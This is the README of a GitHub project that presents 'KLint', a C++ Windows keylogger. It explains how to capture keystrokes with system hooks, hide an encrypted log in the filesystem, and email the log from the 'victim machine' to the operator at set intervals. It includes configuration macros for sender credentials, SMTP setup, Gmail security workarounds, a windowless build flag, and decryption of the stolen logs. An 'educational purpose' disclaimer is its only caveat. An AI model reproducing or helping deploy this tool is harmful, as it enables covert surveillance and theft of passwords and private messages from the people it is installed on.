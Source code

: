 # KLint 
**CPP KeyLogger**<br /><br />
**KLint** captures keyboard key strokes using system hooks [**Based on Windows API**]. The keystrokes are written to a encrypted log file 
hidden under the windows filesystem tree and the log file is sent to the target via email after paticular time intervals as defined in **KeyHooks.h**<br />
In current version **v0.01** only keystroke recording is supported but soon screenshots, audio recording and much more will be added. <br /><br />

## Disclaimer
ANY MALICIOUS USE OF THE CONTENTS FROM THIS PROJECT WILL NOT HOLD THE AUTHOR RESPONSIBLE, THE CONTENTS ARE SOLELY FOR EDUCATIONAL PURPOSE

<br >

# Table of Contents


   * [Setup](#setup)
   * [Configuring The Keylogger](#configuration)
        * [Email Setup](#email-setup)
        * [Additional Params](#additional-parameters)
   * [Encryption](#encryption)
   * [Decryption](#decryption)
        * [Klint Decryptor](#Klint-Decryptor)


## Setup
Download the repository using either bash or the browser

```
git clone https://github.com/shaiq-dev/Klint.git
```

The keylogger is created in **CodeBlocks**, however any IDE supporting C++ can be used to build or modify the project. The CodeBlocks project files are included with this repo. <br />
For any other IDE directly add all the files to a new project. <br /><br />
**Prerequisites**

```

* C++11 standards must be enabled and if using GCC compilter, -mwindows flag needs to be checked
* Addtionally -static flag maybe need to bundle all the dependencies with the exe that are required during runtime

```
    
## Configuration
For current version all the configurations are directly done to the source code. This will be changed in upcoming versions

### Email Setup
Default email configuration is set for **Gmail**. For email setup you need to configure 3 Macros in ***Sender.h*** in ..\KLint\Klint\Sender.h on ***Line 40*** <br />
```
    #define X_EM_TO "receiver@mail.com"
    #define X_EM_FROM "sender@mail.com"
    #define X_EM_PASS "sender password"
```
**X_EM_TO**       &#9;:&#9;Your destination email <br />
**X_EM_FROM**     &#9;:&#9;Your Source email   <br />
**X_EM_PASS**     &#9;:&#9;Source email password   <br />

* **For Gmail Users**

    * To send the emails successfully from the victim machine turn on "Allow  LESS SECURE APPS" from [here]("https://myaccount.google.com/lesssecureapps")<br />
    * Alternatively to be on the safer side you can use "APP PASSWORDS"
    from [here]("https://myaccount.google.com/apppasswords"), but to use this you need to enable 2 factor authentication
    *   Learn more about app passwords on Google [support]("https://support.google.com/accounts/answer/185833?hl=en")<br />

*   **Other Mail Providers**

    Open ***Sender.h*** and goto **Line 69**
    ```
    $Srv = \"smtp.gmail.com\" "
    ```
    Change **smtp.gmail.com** with the mail server of your email provider and edith **Line 78**
    ```
    "           $Client = New-Object Net.Mail.SmtpClient($Srv, 587) #587 port for smtp.gmail.com SSL\r\n "
    ```
    Change **587** with your mail server port number


### Additional Parameters

To change the *time interval* for sending emails, there is a macro in ***KeyHooks.h*** in ..\KLint\Klint\KeyHooks.h on ***Line 17*** <br />
```
#define X_EM_SEMA 30000
```
That default value is *30000* which represents _30_ seconds or _30000 milliseconds_. Any value here should be given in milliseconds<br /><br />

## Encryption

The keylogger uses [BASE64]("https://en.wikipedia.org/wiki/Base64") encryption, as it is easy to decrypt so i have added some modification to the original algorithim. <br />
If you want to change the algorithim to fit your needs goto ___Base64.h___ located at _.\KLint\Klint\Base64.h_ and change the __SALTS__ and do the custom modifications to the following function on __Line 29__
```
 std::string encryptB64(std::string s) 
```
Any modifications made here shall also be made with the [decryptor](#decryption) in the reverse fashion. <br />
You can also change the whole algorithim to fit your needs
<br /><br />

## Decryption

The logs are decrypted using the same BASE64 algorithim and all the modifications made in the __BASE64.h__ are reversed here. The decryptor is located at 
```
..\KLint\Klint Decryptor\Klint-dcrypt\main.cpp
```
Any modifications made with the encryptor shall be reverted here but in reverse fashion. All the modifications shall be done with the below function located at __Line 69__
```
std::string DecryptB64(std::string s)
```

### KLint Decryptor

The ___exe___ version of the klint decryptor is already bundled with this project and can be used to decrypt the log files. It is located at
```
...\KLint\Klint Decryptor\Klint-dcrypt\bin\Debug\Klint-dcrypt.exe
```
**Usage** <br />

The __klint-dcrypt.exe__ can be run from the Windows command Line, it requires two parameters, input and the output file.
```
CMD > .\klint-dcrypt.exe "InputFile.log" "OutputFile.log"
```  

## License
This project is licensed under the MIT License, see the [LICENSE](License.md) file for more details
